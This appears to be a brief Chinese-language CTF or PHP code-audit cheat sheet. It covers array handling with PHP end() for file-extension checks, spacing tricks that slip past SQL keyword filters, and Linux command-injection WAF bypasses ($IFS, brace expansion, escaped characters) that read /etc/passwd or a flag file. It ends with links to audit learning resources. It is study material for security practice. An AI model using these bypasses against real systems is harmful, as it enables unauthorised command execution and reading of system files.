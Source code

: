 ## end方法获取元素的问题

```php
$file = array(1 => 'png', 0 => 'php');

$ext = $file[count($file) - 1];

$ext = end($file);
```

两者的区别是，前者是通过下标来确定，后者则是返回数组的最后一个元素。前者返回的是$filename[1]也就是png,后者直接返回数组排在最后面的元素php。

## mysql字符串过滤

```
information_schema.TABLES
information_schema.COLUMNS
可以使用:
information_schema . TABLES
information_schema . COLUMNS
绕过
```

## linux命令行

用`$IFS`绕过空格

`cat$IFS/etc/passwd`

`php > system("echo|cat\$IFS/etc/passwd");`

`cat</etc/passwd`

`{ls,-al}`

`cat<>test`

`CMD=$'\x20/etc/passwd'&&cat$CMD`

比如 cat flag:

`Waf掉了`<>*;|?\n空格`，还有flag。flag可以用fla\g绕过，空格可以用`$IFS`

`cat /etc/passwd`    ====== `system("c\at /et\c/pass\wd"); `

## 资料

PHP代码审计分段讲解

https://github.com/bowu678/php_bugs

https://github.com/jiangsir404/Audit-Learning


https://read.douban.com/reader/ebook/16642056/
